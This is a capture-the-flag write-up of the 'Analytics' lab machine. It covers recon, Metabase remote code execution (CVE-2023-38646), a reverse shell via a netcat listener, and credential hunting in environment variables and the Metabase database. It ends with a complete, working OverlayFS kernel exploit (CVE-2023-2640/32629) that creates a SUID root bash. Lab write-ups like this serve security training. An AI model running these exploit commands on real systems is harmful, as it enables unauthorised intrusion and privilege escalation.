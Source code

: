 ````markdown
# Analytics CTF Room Writeup

Target:analytical.htb  
Goal: Initial RCE via Metabase (CVE-2023-38646), user shell, then root via OverlayFS kernel exploit (CVE-2023-2640 & CVE-2023-32629)


````
## 1. Initial Recon & Enumeration

Started with a full TCP port scan:  
```bash
nmap -p- -sV -T4 analytical.htb


Found port **80** open, HTTP running.
Added domain to `/etc/hosts` for convenience:

```
10.10.x.x analytical.htb
```

Visited `http://analytical.htb` → Redirected to Metabase login page.

---
````
## 2. Subdomain Bruteforce & Discovering Data

Used subdomain enumeration tools (like `gobuster` or `ffuf`) to find:
`data.analytical.htb` → another Metabase login page.

---

## 3. Metabase Version & RCE CVE-2023-38646

Searched for Metabase exploits → found CVE-2023-38646, an RCE in Metabase’s API.

Checked API for version and token needed:

```bash
curl http://data.analytical.htb/api/session/properties
```

Got version info and confirmation this version is vulnerable.

---

## 4. Getting a Reverse Shell

Set up a Netcat listener on local machine:

```bash
nc -lvnp 4444
```

Used the CVE PoC/exploit with the token from above → got reverse shell as `metabase` user.

---

## 5. Post-Exploitation: Finding Credentials

On the shell, ran:

```bash
env
```

Saw some environment variables with username and password hints.

Next, ran:

```bash
strings metabase.db.mv.db | grep -Eo '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}'
```

Got emails, looked for those related to our user.

Used these emails and guessed passwords (or reused found creds) to log into the Metabase web interface.

---

## 6. SSH Access

Using found credentials, tried SSH:

```bash
ssh user@analytical.htb
```

Login successful.

Grabbed user flag.

---

## 7. Kernel and OS Info

Ran:

```bash
uname -a
lsb_release -a
```

Found kernel: `6.2.0-25-generic`
Ubuntu release: `22.04.03`

---

## 8. Root Privilege Escalation – OverlayFS Kernel Exploit

Looked for Ubuntu kernel exploits for this version → found CVE-2023-2640 & CVE-2023-32629.

The exploit abuses OverlayFS to gain root privileges by mounting OverlayFS with a crafted setup and copying python3 with elevated capabilities.

---

## 9. Running the Exploit

Run this command:

```bash
unshare -rm sh -c "
mkdir l u w m &&
cp /usr/bin/python3 l/ &&
setcap cap_setuid+eip l/python3 &&
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m &&
touch m/*;"
```

This starts a new shell with root privileges inside a user namespace, creates necessary folders, copies python3 and gives it special capabilities, mounts OverlayFS combining those folders, and triggers a copy preserving root capabilities.

Then run:

```bash
u/python3 -c 'import os; os.setuid(0); os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

This runs the python3 with root privileges, copies bash to `/var/tmp/bash`, sets it as SUID root executable, runs it to spawn a root shell, then cleans up.

---

## 10. Final Result

gained root access by running the SUID bash shell at `/var/tmp/bash`:

```bash
/var/tmp/bash -p
```

Now I can read the root flag and fully control the machine.
